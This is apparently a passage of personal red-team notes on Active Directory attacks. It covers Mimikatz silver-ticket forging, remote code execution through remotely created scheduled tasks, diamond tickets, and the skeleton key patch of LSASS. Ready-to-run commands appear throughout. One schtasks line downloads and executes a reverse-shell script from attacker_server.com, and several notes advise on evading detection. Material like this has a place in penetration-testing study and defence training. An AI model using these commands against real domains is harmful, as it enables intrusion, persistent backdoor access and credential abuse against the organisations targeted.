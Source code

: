 ********************************************Creating Silver Ticket********************************************

```powershell
	Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:follow.0xd4y_notes.local /sid:<SID> /target:follow-dc.0xd4y_notes.local /service:<SERVICE> /rc4:<NTLM_HASH> /ptt"'
```

- note the service can be WSMAN, RPCSS, HOST, HTTP, etc.
- you can get RCE by creating silver ticket for HOST service and creating a scheduled task
    - `schtasks /create /S follow.0xd4y_notes.local /sc Weekly /ru "NT Authority\SYSTEM" /tn: <TASK_NAME> /tr <REVERSE_SHELL_PAYLOAD>` then, run the task with `schtasks /run /s follow.0xd4y_notes.local /tn <TASK_NAME>`
- also possible to execute commands with WMI service (check with `gwmi -Class win32_operatingsystem -ComputerName follow.0xd4y_notes.local`)
- HTTP allows you to PSRemote

**********************Getting RCE**********************

- create silver ticket for HOST service

```powershell
schtasks /create /S target.0xd4y_notes.local /SC Weekly /RU "NT Authority\System" /TN "Follow0xd4yTask" /TR "powershell.exe -c 'IEX(New-Object Net.WebClient).DownloadString(''http://attacker_server.com/Reverse_Shell.ps1''')'"
schtasks /Run /S target.0xd4y_notes.local /TN "Follow0xd4yTask"
```

## Diamond Ticket

- like golden ticket but more opsec safe
    - silver ticket is a lot more opsec safe than both
- instead of crafting a TGT, you request a TGT from the DC, decrypt the TGT and make modifications, and then send back that TGT to the DC
- harder to detect than golden ticket because defenders will see that for the submitted TGT, there was a prior corresponding TGT request
- most detectable when using the modified TGT rather than the initial submission of the modified TGT
- ensure you are using it from a workstation that DAs typically use

## Skeleton Key

- patches DC to allow access to any user with single password
- indefinite persistence as long as the target does not reboot
    - usually people reboot the DC every month or several months
- only works against machines that authenticate to the patched DC
- can result in issues with AD CS
- can only patch LSASS once per reboot
    - otherwise the following error occurs: `ERROR kul_m_misc_skeleton ; Second pattern not found`
- note that this attack does not overwrite any password

******************************************Creating Skeleton Key******************************************

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName follow-dc.0xd4y_notes.local
```
